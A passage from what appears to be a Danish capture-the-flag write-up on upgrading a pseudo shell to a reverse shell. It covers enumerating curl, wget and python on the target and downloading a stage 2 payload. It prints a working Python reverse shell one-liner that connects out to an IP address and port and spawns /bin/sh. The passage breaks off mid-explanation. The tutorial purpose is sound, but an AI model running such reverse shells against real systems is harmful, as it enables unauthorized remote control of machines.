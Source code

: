 ```python3 -m http.server```
Jeg har derfor lavet denne sektion, til at forklare nogle andre måder at opgradere sin shell fra pseudo shell, som ikke kræver man modificerer den originale exploit.

Istedet bruger man den originale exploits funktionalitet til at spawne en reverse shell. Dette kræver dog flere trin at reproducere. Jeg plejer personligt at undgå dette, da jeg gerne hurtigt vil kunne reproducere mine trin, i tilfælde af jeg mister forbindelse eller lignende til boksen. Men dette vil være nemmere for nybegyndere at gå til.

### Step 1. Kør original exploit og enumerér.
Efter du har kørt din originale exploit får du en pseudo shell, hvor du kan køre simple kommandoer i.

Du kan bruge denne shell til at enumere hvilke programmer eksisterer på maskinen. Jeg plejer gerne at lede efter curl og wget, da jeg derved kan downloade en stage 2 payload og køre denne via. min pseudo shell.

Derudover plejer jeg også at lede efter python, da python er nem at downloade en reverse shell payload til, som er relativ kort, men også har simple one-liners der virker ret ofte.

Du kan søge efter programmer på path vha. ```which programnavn``` og se om de eksisterer. Her kan du se et eksempel på boksen hvor jeg finder curl og python men ingen wget:

![enumerate foothold 2](enumerate_foothold2.png)

### Step 2.1. Reverse shell med one-liner

Du kan derefter hente en reverse shell fra feks. PayloadAllTheThings og køre denne via. din pseudo shell.

Eksempel:
![shell2](shell2.png)

For denne challenge virker dette, men det er ikke altid dette vil. Nogen gange skal man sidde og bøvle i lang tid med escape characters mm. for at man kan få sin one-liner igennem, hvilket ikke er ideelt.

Hvis dette sker, kan vi istedet kigge på at downloade en stage 2 og køre den:

## Step 2.2 Reverse shell med download

Lad os tage den originale payload og omskrive den til et python script istedet:
```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("77.210.13.4",13337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

python -c betyder bare: Kør python med det her som kommando.

Semikolonerne viser det er slutningen af en kommando og kan byttes ud med en newline.

Så omskrevet, vil denne one-liner se sådan her ud:
